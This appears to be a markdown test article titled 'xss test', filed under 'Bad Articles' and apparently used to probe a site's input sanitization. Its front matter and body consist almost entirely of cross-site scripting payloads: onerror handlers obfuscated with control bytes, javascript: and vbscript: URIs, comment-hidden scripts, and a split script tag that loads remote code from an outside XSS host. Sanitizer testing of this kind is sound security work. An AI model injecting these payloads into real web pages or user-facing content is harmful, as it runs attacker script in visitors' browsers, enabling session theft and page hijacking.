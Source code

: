 ```yaml
---
title: xss test
date: 2019-07-18T08:23:44.456Z
description: '<audio src=1 href=1 onerror="javascript:alert(1)"></audio>'
directory: Bad Articles
priority: 1
role: '<audio src=1 href=1 onerror="javascript:alert(1)"></audio>'
tags:
  - <script>alert("hello")</script>
---
```

<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>

&#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00

<video><source onerror="javascript:javascript:alert(1)">

<video onerror="javascript:javascript:alert(1)"><source>

<img src="javascript:alert(1)">

<img \x00src=x onerror="alert(1)">

<img \x47src=x onerror="javascript:alert(1)">

<img \x11src=x onerror="javascript:alert(1)">

<img \x12src=x onerror="javascript:alert(1)">

<img\x47src=x onerror="javascript:alert(1)">

<img\x10src=x onerror="javascript:alert(1)">

<img\x13src=x onerror="javascript:alert(1)">

<img\x32src=x onerror="javascript:alert(1)">

<img\x47src=x onerror="javascript:alert(1)">

<img\x11src=x onerror="javascript:alert(1)">

<img \x47src=x onerror="javascript:alert(1)">

<img \x34src=x onerror="javascript:alert(1)">

<img \x39src=x onerror="javascript:alert(1)">

<img \x00src=x onerror="javascript:alert(1)">

<img src\x09=x onerror="javascript:alert(1)">

<img src\x10=x onerror="javascript:alert(1)">

<img src\x13=x onerror="javascript:alert(1)">

<img src\x32=x onerror="javascript:alert(1)">

<img src\x12=x onerror="javascript:alert(1)">

<img src\x11=x onerror="javascript:alert(1)">

<img src\x00=x onerror="javascript:alert(1)">

<img src\x47=x onerror="javascript:alert(1)">

<img src=x\x09onerror="javascript:alert(1)">

<img src=x\x10onerror="javascript:alert(1)">

<img src=x\x11onerror="javascript:alert(1)">

<img src=x\x12onerror="javascript:alert(1)">

<img src=x\x13onerror="javascript:alert(1)">

<img\[a]\[b]\[c]src\[d]=x\[e]onerror=\[f]"alert(1)">

<img src=x onerror=\x09"javascript:alert(1)">

<img src=x onerror=\x10"javascript:alert(1)">

<img src=x onerror=\x11"javascript:alert(1)">

<img src=x onerror=\x12"javascript:alert(1)">

<img src=x onerror=\x32"javascript:alert(1)">

<img src=x onerror=\x00"javascript:alert(1)">

<a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>XXX</a>

<img src="x\` \`<script>javascript:alert(1)</script>"\` \`>

<img src onerror /" '"= alt=javascript:alert(1)//">

<title onpropertychange=javascript:alert(1)></title><title title=>

<a href=http://foo.bar/#x=`y></a><img alt="`><img src=x:x onerror=javascript:alert(1)></a>">

<!--\[if]><script>javascript:alert(1)</script -->

<!--\[if<img src=x onerror=javascript:alert(1)//]> -->

<IMG LOWSRC="javascript:javascript:alert(1)">

<img src=\`%00\`&NewLine; onerror=alert(1)&NewLine;

<IMG SRC='vbscript:msgbox("XSS")'>
